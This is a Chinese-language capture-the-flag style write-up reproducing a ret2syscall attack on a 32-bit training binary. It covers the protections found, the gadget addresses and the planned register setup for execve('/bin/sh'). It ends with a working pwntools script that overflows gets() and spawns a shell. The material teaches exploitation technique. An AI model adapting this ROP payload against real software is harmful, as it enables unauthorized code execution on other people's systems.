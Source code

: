 ## ret2syscall复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具（IDA pro）查找缓冲区溢出入口和可利用的源码片段
- 使用二进制调试工具（gdb）查看寄存器与内存内容
- 计算需要覆写的返回地址的偏移
- payload构造

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230419182517185](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191825229.png)

能够得知以下信息：

- 可执行文件为是一个32位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 没有开启“堆栈金丝雀（stack canary）”技术。
- 开启了“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro来查看反汇编程序源码：

![image-20230419182748810](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191827832.png)

可以看主函数中明显的缓冲区溢出漏洞入口`get(s)`，但是没有在程序中查找到`/bin/sh`字符串或`system()`函数等易于利用的工具；检查其内存权限属性，也没有找到额外的可执行内存段（如下图）。

![image-20230419183214617](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191832640.png)

没有可以利用的代码也无法自己输入shellcode来获得shell，因此考虑使用ROP(Return Oriented Programming)方法，利用程序中已有的以`ret`结尾的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

希望能够构造出系统调用如下：

```
execve("/bin/sh",NULL,NULL)
```

在汇编视角，则需要满足以下寄存器条件并发起系统中断

- eax = 0xb（`execve`的系统调用号）
- ebx = addr('/bin/sh')
- ecx = 0
- edx = 0

当构造好所需寄存器的值后，跳转到任意一个`int 0x80`地址发起系统中断即可实现一次`execve`系统调用。

为了构造寄存器的值，需要利用程序中已有的，以`ret`结尾的程序片段，实现多个片段间的连续跳转和利用，这种程序片段被称为gadgets。通过ROPgadget工具查找需要的gadgets：

![image-20230423110738249](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231107283.png)

控制eax的gadget采用`0x080bb196`位置的`pop eax; ret`。

![image-20230423111106472](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231111498.png)

控制ebx、ecx和edx采用`0x0806eb90 `位置的`pop edx ; pop ecx ; pop ebx ; ret`。

![image-20230423111406420](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231114438.png)

字符串“/bin/sh”程序中仅有一处，即`0x080be408`地址处。

![image-20230423111620018](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231116039.png)

系统中断`int 0x80`在程序中也仅有溢出，即`0x08049421`地址处。

因此构思获得shell的攻击流程如下：

1. 通过`gets()`构造缓冲区溢出攻击，劫持控制流。
2. 覆盖`main()`函数的返回地址为控制eax的gadget地址
3. 在栈中后续内容继续填充希望`pop`进eax寄存器的内容`0xb`
4. 在栈中后续内容（控制eax的gadget的ret地址）继续填充为控制ebx、ecx和edx寄存器的gadget地址
5. 在栈中后续内容继续填充希望`pop`进ebx、ecx、edx寄存器的内容`0`、`0`和字符串“/bin/sh”的地址`0x080be408`
6. 在栈中后续内容（控制ebx、ecx、edx的gadget的ret地址）继续填充为`int 0x80`的地址

### 攻击复现

接下来实现攻击，根据上述思路编写payload：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
sh.sendline(b'A' * (0x6c+4) + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(binsh) + p32(int_0x80))
sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230423114713741](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231147764.png)